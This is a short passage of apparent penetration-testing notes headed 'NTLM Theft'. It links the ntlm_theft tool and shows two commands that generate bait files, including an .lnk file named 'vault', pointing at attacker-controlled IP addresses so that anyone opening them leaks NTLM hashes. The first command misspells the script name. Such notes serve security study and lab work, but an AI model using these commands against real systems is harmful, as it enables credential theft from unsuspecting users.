 ### NTLM Theft

https://github.com/Greenwolf/ntlm_theft

```sh
# ALL extensions
python3 ntlm_thft.py --verbose --generate modern --server '10.10.14.22' --filename "important-note" -g all
# lnk file
python3 ntlm_theft.py -g lnk -s 192.168.45.219 -f vault
```